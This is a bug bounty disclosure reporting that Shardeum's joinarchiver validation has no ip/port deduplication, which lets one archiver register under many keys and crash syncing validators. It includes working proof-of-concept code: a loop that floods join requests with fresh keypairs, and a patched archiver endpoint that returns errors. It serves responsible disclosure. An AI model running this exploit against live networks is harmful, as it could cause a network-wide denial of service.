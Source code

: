 
# Lack of deduplication in joinarchiver requests leads to DoS attack on syncing node by malicious archiver

Submitted on Jul 24th 2024 at 01:42:01 UTC by @GuplerSaxanoid for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33576

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
An adversary is able to register a single archiver node multiple times under different public keys due to lack of duplication checks against ip/port pairs in `joinarchiver` request validations. This allows the attacker to exhaust the maximum limit enforced on number of archivers that can join a shard, with the malicious archiver occupying majority of indices in archivers list. The malicious archiver is able to bring down syncing validator nodes with a fatal error.

## Vulnerability Details
During the request validation process in `joinarchiver` route, the program attempts to detect duplicate archivers by equating the public key in the request to the public keys that already exist. However, there is no attempt to detect duplicates based on ip/port values. This allows an attacker to register a single archiver node multiple times under different public keys to an extent that they exhaust the maximum limit on number of archivers that can join a shard.

There are several occasions in the program where a random archiver is chosen to access the list of active node in the network or the current cycle info:
1. When a standby node attempts to join the active set (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L228)
2. When a node attempts to sync with the existing active nodes (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L190)
3. When a standby node makes a standby-refresh (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/v2/standbyRefresh.ts#L16)

When a node attempts to sync with the active set, it makes a call to '/cycleinfo/:count' endpoint of a randomly chosen archiver. If the archiver returns an error response, the validator node shuts down with a fatal error.

A malicious archiver can be programed to always returns an erroneous response through cycleinfo calls. But, since archiver is selected randomly, the probability that the malicious archiver is selected should outweigh the probability that an honest archiver is selected. 

In a network with 10 archiver nodes and 128 nodes-per-shard, 64 archivers can join the shard. Subtracting the 10 archiver nodes, the malicious archiver can present itself under 54 different public keys on each shard. The probability that the malicious archiver will be selected by syncing validator is approximately 0.84. Thus, syncing nodes are under a high probability of attack from the malicious validator.

## Impact Details
Since archiver nodes are expected to present themselves on every shard to subscribe to all of the state changes, the attack is imminent on every shard. All of the validator nodes in a shard will go through the syncing phase, where they are vulnerable to attack from the malicious archiver with a high probability. Hence, this exploit will cause a total network shutdown.




## Proof of Concept
1. Register the following external POST endpoint in validator:
```
shardus.registerExternalPost('archiver-join-hijack', externalApiMiddleware, async (req, res) => {
    while(true) { 
      const keypair = crypto.generateKeypair();
      const curveKey = crypto.convertPkToCurve(keypair.publicKey);

      const payload: ArchiversTypes.Request = crypto.signObj({
        nodeInfo: {
          curvePk: curveKey,
          ip: "127.0.0.1",
          port: 4000,
          publicKey: keypair.publicKey
        },
        appData: {
          version: AccountsStorage.cachedNetworkAccount.current.archiver.activeVersion
        },
        requestType: ArchiversTypes.RequestTypes.JOIN,
        requestTimestamp: (CycleChain.newest.start + CycleChain.newest.duration)*1000

      },keypair.secretKey, keypair.publicKey) as ArchiversTypes.Request;

      await Comms.sendGossip(
        'joinarchiver',
        payload,
        null,
        null,
        nodeListFromStates([
          P2P.P2PTypes.NodeStatus.ACTIVE,
          P2P.P2PTypes.NodeStatus.READY,
          P2P.P2PTypes.NodeStatus.SYNCING,
       ]),
       true
      )
    }

    return res.json("")
  })
```
PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-validator-node-patch

NOTE: The above endpoint makes a call through gossip route instead of the
external `joinarchiver` endpoint. This is done for ease of implementation in generating new public keys and signing the payload. However, the gossip route goes through the same deduplication process as the external endpoint, and both of them are equally vulnerable. This is to say that, a malicious validator is not required to perform this attack, the payloads can be signed by an external user/archiver and sent to an active node.

2. Alter `cycleinfo/:count` endpoint in @shardus/archiver module to the following to enact malicious archiver after 10 cycles:

```
server.get('/cycleinfo/:count', async (_request: CycleInfoCountRequest, reply) => {
    if(Cycles.getCurrentCycleCounter() > 10) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    const err = Utils.validateTypes(_request.params, { count: 's' })
    if (err) {
      reply.send({ success: false, error: err })
      return
    }
    let count: number = parseInt(_request.params.count)
    if (count <= 0 || Number.isNaN(count)) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    if (count > MAX_CYCLES_PER_REQUEST) count = MAX_CYCLES_PER_REQUEST
    const res = await Cycles.getLatestCycleRecords(count)
    reply.send(res)
  })
``` 
PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-archiver-node-patch

IMPORTANT: Make sure to link the modified @shardus/archiver module to node_modules in shardeum using `npm link`

3. spin up a local network in debug mode
4. wait for a few nodes to go active
5. Make a call to 'archiver-join-hijack' endpoint in an active validator node, the program will enter an infinite loop. Wait until you see the following warning logs in active nodes:
```
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: addJoinRequest: This archiver cannot join as max archivers limit has been reached
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: Archiver join request not accepted.
```
6. SIGKILL the previous call. Make a call to `archivers` endpoint to notice that archivers list contains multiple archivers pointing to same ip/port
7. Let the network run for a few cycles and observe that the syncing nodes goes offline with a fatal error.

Here are exit summaries from two random validator nodes for evidence:
https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-2-json
https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-1-json